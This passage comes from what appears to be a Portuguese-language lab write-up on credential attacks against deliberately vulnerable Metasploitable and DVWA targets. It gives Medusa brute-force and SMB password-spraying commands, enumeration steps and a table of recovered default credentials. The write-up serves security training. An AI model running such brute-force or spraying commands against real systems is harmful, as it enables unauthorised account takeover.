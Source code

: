 **Resultado**: ✅ Credenciais descobertas: `msfadmin:msfadmin`

### 2.  Ataque em Formulário Web (DVWA)

**Objetivo**: Automatizar ataques contra formulários de login web

**Configuração DVWA:**
- Security Level: Low
- URL: `http://192.168.1.100/dvwa/`
- Formulário: `/dvwa/vulnerabilities/brute/`

**Comando executado:**
```bash
medusa -h 192.168.1.100 -U usuarios.txt -P senhas.txt -M http \
  -m FORM:/dvwa/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie\: security=low; PHPSESSID=abc123 -t 3
```

**Resultado**: ✅ Múltiplas credenciais fracas identificadas

### 3.  Password Spraying SMB + Enumeração

**Objetivo**: Simular cenário corporativo com enumeração de usuários SMB

**Processo implementado:**

1. **Enumeração de usuários SMB:**
```bash
enum4linux -a 192.168.1.100
smbclient -L //192.168.1.100 -N
```

2. **Criação de wordlist contextual:**
```bash
# Lista baseada no ambiente corporativo
echo -e "password\n123456\nwelcome\nadmin\nCompany2024!" > senhas-corporativas.txt
```

3. **Password Spraying:**
```bash
medusa -h 192.168.1.100 -U usuarios-enumerados.txt -p "Company2024!" -M smbnt -t 2
```

**Resultado**: ✅ Identificadas contas com senhas padronizadas

## 📊 Resultados e Descobertas

### Vulnerabilidades Identificadas

| Serviço | Vulnerabilidade | Criticidade | Credenciais |
|---------|----------------|-------------|-------------|
| FTP | Senha padrão não alterada | **ALTA** | msfadmin:msfadmin |
| SSH | Múltiplas contas fracas | **ALTA** | user:user, postgres:postgres |
| SMB | Password spraying efetivo | **MÉDIA** | service:service |
| Web | Formulários sem proteção | **ALTA** | admin:password |
